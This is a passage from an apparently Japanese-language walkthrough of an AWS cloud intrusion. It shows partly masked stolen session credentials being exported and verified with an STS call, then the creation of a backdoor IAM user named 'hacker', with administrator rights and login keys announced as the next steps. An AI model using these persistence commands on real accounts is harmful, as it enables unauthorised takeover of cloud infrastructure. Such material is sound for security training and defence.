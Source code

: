 ```sh
export AWS_ACCESS_KEY_ID=ASIAVJXXXXXXXXXXXXXX
export AWS_SECRET_ACCESS_KEY=vtHr/KJqQ1+miLKhxxxxxxxxxxxxxxxxxxxxxxxx
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjED8aCXVzLWVhc3QtMSJGMEQCIxxxxx
```

</div>

　このクレデンシャルを持つIAMユーザーまたはロールに関する詳細が返されることから、取得できたクレデンシャルが有効であることが確認できました。

<div class="md-code" style="width:100%">

```
$ aws sts get-caller-identity
```

</div>

<div class="md-code" style="width:100%">

```json
{
    "UserId": "AROAVJV7MGT35ADFGYUUP:i-0f7f96d4e98xxxxx",
    "Account": "364300000000",
    "Arn": "arn:aws:sts::364300000000:assumed-role/ec2Deployer-role/i-0f7f96d4e98xxxxx"
}
```

</div>

### バックドアAWSユーザの作成

　とうとう最後のフェーズです。

　取得したクレデンシャルを利用しバックドアAWSユーザを追加します。さらにそのユーザに対して管理者権限を付与しましょう。  

　ログインできるようにパスワードの設定を行います。AWS CLI で利用できるように当ユーザのクレデンシャルの発行も行います。  

#### AWSユーザの作成  （aws iam create-user）

　取得したクレデンシャルを利用して、最終目標であるバックドアAWSユーザを追加を行います。  

　「`hacker`」という名のAWSユーザ追加します。   

<div class="md-code" style="width:100%">

```
$ aws iam create-user --user-name hacker
```

</div>

<div class="md-code" style="width:100%">

```json
{
    "User": {
        "Path": "/",
        "UserName": "hacker",
        "UserId": "AIDAVJV7MGT3RYW4XXXXX",
        "Arn": "arn:aws:iam::364300000000:user/hacker",
        "CreateDate": "2023-05-29T14:37:50+00:00"
    }
}
```
